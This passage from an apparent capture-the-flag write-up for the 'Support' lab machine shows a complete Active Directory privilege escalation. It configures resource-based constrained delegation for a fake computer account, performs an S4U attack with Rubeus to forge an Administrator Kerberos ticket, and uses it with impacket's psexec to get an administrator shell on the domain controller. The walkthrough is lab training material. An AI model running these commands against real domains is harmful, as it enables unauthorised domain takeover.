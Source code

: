Now we configure the Resource-Based Constrained Delegation:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

Verify it:

```powershell
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

### Perform S4U Attack
This attack will allow us to acquire the Kerberos ticket on behalf of the Administrator.

Use Rubeus:

```powershell
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Get the value of rc4_hmac and generate Kerberos ticket for the administrator:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

Grab the last ticket (Base64) for the Administrator and save it as ticket.kirbi.b64 in our attacker's machine.

![alt text](Snapshots/Support-image-3.png)

Now decode the file:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Convert the ticket.kirbi to ticket.cache:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Using the ticket.cache, we login to the machine as Admin via impacket's psexec:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

![alt text](Snapshots/Support-image-4.png)
